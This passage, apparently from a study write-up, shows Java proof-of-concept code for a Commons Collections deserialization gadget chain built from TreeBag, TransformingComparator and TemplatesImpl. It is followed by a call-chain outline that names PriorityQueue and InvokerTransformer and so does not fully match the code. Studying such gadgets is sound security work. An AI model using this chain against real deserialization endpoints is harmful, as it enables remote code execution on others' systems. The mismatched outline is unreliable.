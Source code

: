 ```java
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{obj})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);

        TreeBag treeBag = new TreeBag(transformingComparator);
        treeBag.add(obj);

        try {
            // Serialization
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(treeBag);
            objectOutputStream.close();

            // Deserialization
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC4();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
<img src="./images/10.png" alt="">

# Call chain
> PriorityQueue
```java
PriorityQueue.readObject()
    TransformingComparator.compare()
        *ChainedTransformer.transform()
                InvokerTransformer.transform()
                    InstantiateTransformer.transform()
                        TemplatesImpl.newTransformer()
```
